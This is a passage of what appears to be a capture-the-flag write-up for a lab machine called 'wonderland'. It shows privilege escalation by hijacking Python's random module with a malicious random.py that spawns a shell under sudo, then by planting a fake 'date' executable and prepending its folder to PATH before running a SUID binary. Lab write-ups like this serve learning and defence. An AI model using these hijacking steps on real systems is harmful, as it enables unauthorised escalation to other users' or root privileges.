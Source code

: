 ```python
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

This python code is randomly choose 10 lines and print them, but as you can see the code is importing the "random" lib, let's try to create our own one and execute the script with another account.

```bash
alice@wonderland:~$ cat random.py
#!/bin/bash

import os

os.system("/bin/bash")
```

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

<div className="Image__Medium">
  <img src="https://imgur.com/skVItpo.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/dvizfgC.png" alt="blog_image" />
</div>

Nothing there let's see the source..

<div className="Image__Medium">
  <img src="https://imgur.com/bb0eRMG.png" alt="blog_image" />
</div>

```bash
The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for himSegmentation fault (core dumped)
```

Like the previous one let's create our own date file and execute it.

```bash
rabbit@wonderland:/home/rabbit$ nano date
Unable to create directory /home/alice/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ ls -la
total 44
drwxr-x--- 2 rabbit rabbit  4096 Jun 11 14:41 .
drwxr-xr-x 6 root   root    4096 May 25 17:52 ..
lrwxrwxrwx 1 root   root       9 May 25 17:53 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25 03:01 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25 03:01 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25 03:01 .profile
-rwxr-xr-x 1 rabbit rabbit    10 Jun 11 14:41 date
-rwsr-sr-x 1 root   root   16816 May 25 17:58 teaParty
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty
```
